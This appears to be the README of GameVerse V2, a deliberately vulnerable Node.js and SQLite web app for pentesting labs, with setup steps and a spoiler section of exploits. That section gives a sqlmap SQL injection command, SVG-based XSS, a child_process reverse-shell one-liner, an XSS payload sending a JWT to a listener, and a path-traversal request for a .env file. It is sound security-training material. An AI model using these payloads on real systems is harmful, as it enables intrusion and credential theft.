

# GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.



---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---


### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --tables --risk 3 --level 5
```

---

### Plaintext passwords in the database

---

### XSS via avatar URL (using `<object>`)
Create SVG (POC):
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this when you send a message to another user:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
Create a .js file and upload it as an avatar with:
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```
Then access it with path traversal in the admin plugin system

---

### JWT exfiltration via XSS
Post the following in the forum section (example):
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
```
Then catch the the token with nc -lvnp 4444

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
</details>